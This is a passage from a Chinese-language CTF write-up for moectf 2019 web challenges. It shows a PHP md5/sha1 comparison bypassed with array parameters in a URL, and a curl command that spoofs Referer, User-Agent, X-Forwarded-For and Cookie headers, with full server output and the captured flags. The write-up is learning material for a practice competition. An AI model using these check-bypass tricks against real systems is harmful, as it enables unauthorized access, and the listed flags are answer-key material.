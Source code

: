 就是按照网页的提示改HTTP请求头就好了.

`flag`: `moectf{M0m_I_c4n_m0dify_HTTP_H3aders!}`

这个`flag`写的也让人很想吐槽....

### stronger_php

这个竟然判断md5==sha1…....

用数组绕过, 浏览器打开`http://39.108.11.206:10008/?a[]&b[]=123123`

得到`flag`: `moectf{Y0u_can_st1ll_defeat_m3}`

### 终极HTTP请求头

我!!!!! 想杀人...

先挂出来我的狗血历程🙃:

```text
## 上面省略2232行尝试的代码
rever@DS-10001-RX MINGW64 ~
$ curl --header "Referer: www.xidian.edu.cn" --header "User-Agent: moectf_browser" --header "X-Forwarded-For: 127.0.0.1" --header "Cookie: xduer" --header "Accept: PHP" --header "Accept-Encoding: UTF-8" --header "Accept-Language: zh-CN" -v -i http://39.108.11.206:10012/
*   Trying 39.108.11.206...
* TCP_NODELAY set
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 39.108.11.206 (39.108.11.206) port 10012 (#0)
> GET / HTTP/1.1
> Host: 39.108.11.206:10012
> Referer: www.xidian.edu.cn
> User-Agent: moectf_browser
> X-Forwarded-For: 127.0.0.1
> Cookie: xduer
> Accept: PHP
> Accept-Encoding: UTF-8
> Accept-Language: zh-CN
>
< HTTP/1.1 200 OK
< Date: Fri, 06 Sep 2019 14:41:00 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.14
< Vary: Accept-Encoding
< Content-Length: 443
< Content-Type: text/html
<
{ [443 bytes data]
100   443  100   443    0     0   3141      0 --:--:-- --:--:-- --:--:--  3141HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 14:41:00 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Vary: Accept-Encoding
Content-Length: 443
Content-Type: text/html

First of all, you must come from XiDian University<br>Second, you have to use moectf_browser<br>Third, you have to visit from the localhost<br>Fourth, your identity must be xduer<br>Fifth, client can only accept PHP documents<br>Sixth, we only allow UTF-8 encoding<br>Finally, we are only allowed to use Chinese.<br>Congratulations on having a good understanding of HTTP HEADERS and finally getting flag:<br>moectf{Reward_y0u_For_per3everAnce}
* Connection #0 to host 39.108.11.206 left intact
```
